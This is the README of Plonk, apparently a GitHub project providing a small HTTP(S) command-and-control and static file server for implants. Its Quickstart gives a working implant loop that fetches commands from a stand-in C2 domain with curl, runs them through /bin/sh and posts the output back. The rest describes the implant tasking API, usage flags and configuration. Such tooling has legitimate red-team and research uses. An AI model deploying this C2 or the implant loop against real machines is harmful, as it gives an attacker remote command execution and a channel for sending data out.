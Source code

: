 Plonk HTTP C2 and Static File Server
====================================
Plonk is a little HTTP(s) server program you can just plonk down and use for
quick'n'dirty C2ish infrastructure.  It serves static file and can serve
rudimentary tasking and take output.

Quickstart
----------
1. Start the C2 server
```bash
go install github.com/magisterquis/plonk@latest
plonk -h
plonk -letsencrypt c2domain.example.com
```
2. Get an implant going on target
```bash
while :; do
        curl -s https://c2domain.example.com/t/kittens |
        /bin/sh |
        curl --data-binary @- -s https://c2domain.example.com/o/kittens
        
        sleep 15
done
```
3. Tasking and output
```bash
plonk -interact kittens
ps awwwfux
```

Features
--------
- HTTP
- HTTPS with (in order of preference)
  - Automatic certificate provisioning with Let's Encrypt
  - Easy usage of custom certificates
  - Self-signed certificate generation
- Static file server
- Tasking over HTTP(s)
- Task output logging over HTTP(s)
- Simple interactive interface

Installation
------------
With a [typical Go installation](https://golang.org/...):
```sh
go install github.com/magisterquis/plonk@latest
```

Alternatively, Plonk for several architectures may be built with
[`build.sh`](./build.sh).

Static And Default Files
------------------------
Static files placed in `plonk.d/files` will be served under the path `/f`, e.g.
a request for `https://example.com/f/tools/implant` will return
`plonk.d/files/tools/implant`.

Requests for unexpected paths (i.e. not in the table below) will be served
a static file, `plonk.d/index.html`.

Implants
--------
Plonk does not currently have any pre-built implants.  The Implant HTTP API
(such as it is) is a follows:

Default Endpoint | [Environment Variable](#Environment-Variables) | Description
-----------------|------------------------------------------------|-
`/f/<path>`      | `PLONK_FILESPREFIX`/`PLONK_STATICFILESDIR`     | Download a static file
`/t/<ImplantID>` | `PLONK_TASKPREFIX`                             | Retrieve tasking
`/o/<ImplantID>` | `PLONK_OUTPUTPREFIX`                           | Return output

The `/<ImplantID>` above may be omitted for an IDless implant.  To interact
with an IDless implant, `-task -` and `-interact -` may be used.  If more than
one implant doesn't provide an ImplantID, tasking will go to whichever asks
first.

There are a few low-effort implants in
[`implant_ideas.md`](./implant_ideas.md).

Signals
-------
Plonk listens for two Signals, SIGHUP and SIGUSR1.

SIGHUP causes the following:
- Tasking file is closed and reopened.  This is useful for after editing it
  with vim.
- Certificates cached in memory are forgotten.  This is useful for manual
  certificate updating with no downtime.
- Seen implants are forgotten.  This is useful for logging the next callback
  of an implant which has already called back without using `-verbose`.

SIGUSR1 causes the following:
- Generated self-signed certificates are written to disk.  This is useful for
  restarting Plonk while an implant which checks a self-signed cert's
  fingerprint is still running.

Usage
-----
```
Usage: plonk [options]

  HTTP(s)-based static file and rudimentary C2 server.

  Upon starting, Plonk will make a directory (-work-dir, currently plonk.d),
  chdir into it, and make other supporting files and directories.  The names of
  these and several other things can be controlled with environment variables,
  listable with -print-env.

  TLS certificates may, in order of preference, be automatically provisioned
  using Let's Encrypt (-letsencrypt*), stored as pairs of
  plonk.d/certs/domain.tld.{crt,key}, or failing that, generated as
  self-signed certificates.

  Do not use -letsencrypt unless you accept Let's Encrypt's Terms of Service.

  Files and directories under plonk.d/files/ will served when Plonk gets a
  request for a path under /f/.

  C2 tasking is retrieved by a request to /t/<ImplantID>.  The /<ImplantID>
  may be empty; Plonk treats this as an IDless implant.  Tasking is stored in a
  single JSON file (currently plonk.d/tasking.json), which may be updated by
  hand or with -task or -implant, as below.  Plonk doesn't do anything to
  process tasking; whatever it gets it sends directly to the implant.

  Output from implants is sent in an HTTP request body to /o/<ImplantID>, or
  just /o for an IDless implant.

  HTTP verbs for all requests are ignored.  HTTP requests for paths other than
  the above are served a single static file, by default plonk.d/index.html.

  All of the above is logged in plonk.d/log.

  When Plonk gets a SIGHUP, it reopens the taskfile and forgets the self-signed
  certificates it's generated as well as its list of seen implants.  When Plonk
  gets a SIGUSR1, it writes the self-signed certificates it's generated to the
  local certificate directory.

  The first time Plonk is run, it is helpful to use -verbose.

Usage: plonk -task implantID|- [task...]

  Adds a task for the given implant, or - for the IDless implant.  This
  invocation af Plonk must be run with the same idea of the tasking file
  (currently plonk.d/tasking.json) as the server process.

Usage: plonk -implant implantID|-

  Interactive(ish) operation.  Given an implant ID (or - for the IDlessimplant)
  it queues as tasking non-blank, non #-prefixed lines it reads on standard
  input and displays relevant logfile lines on standard output.  Probably best
  used with rlwrap.  Like -task, this invocation of Plonk must be run with the
  same idea of the tasking file (currently plonk.d/tasking.json) as well as the
  logfile (currently plonk.d/log).

Options:
  -http address
    	HTTP address
  -https address
    	HTTPS address (default "0.0.0.0:443")
  -interact string
    	Interact with the given implant ID, or - for an IDless implant
  -letsencrypt domain
    	Use Let's Encrypt to provision certificates for the given domain (may be repeated)
  -letsencrypt-email address
    	Optional email address to use for Let's Encrypt
  -letsencrypt-staging
    	Use Let's Encrypt's staging server
  -print-env
    	Print the configuration environment variables
  -task ID
    	Queue a task for the given implant ID or - for an IDless implant
  -verbose
    	Log ALL the things
  -whitelist-self-signed domain
    	Allow self-signed cert generation for the given (possibly wildcarded) domain or IP address (may be repeated, default *)
  -work-dir directory
    	Working directory (default "plonk.d")
```

Environment Variables
---------------------
Plonk reads configuration from the following environment variables at runtime:

Variable|Default|Description
-|-
`PLONK_DEFAULTFILE`    |`index.html`   | File served for otherwise-unhandled requests
`PLONK_FILESPREFIX`    |`f`            | URL path prefix for requesting static files
`PLONK_HTTPTIMEOUT`    |`1m`           | HTTP request timeout
`PLONK_LECERTDIR`      |`lecerts`      | Let's Encrypt certificate cache directory
`PLONK_LOCALCERTDIR`   |`certs`        | Locally-configured (non-Let's Encrypt) certificate directory
`PLONK_LOGFILE`        |`log`          | Logfile
`PLONK_OUTPUTMAX`      |`10485760`     | Maximum output read in one request from an Implant
`PLONK_OUTPUTPREFIX`   |`o`            | URL path prefix used by implants to request to send output
`PLONK_STATICFILESDIR` |`files`        | Static files directory
`PLONK_TASKFILE`       |`tasking.json` | Queued tasking file
`PLONK_TASKPREFIX`     |`t`            | URL path prefix used by implants to request tasking

The list may also be printed with `-print-env`.

Filenames and directories above are taken as subdirectories of Plonk's working
directory, by default `plonk.d` unless they're absolute paths.
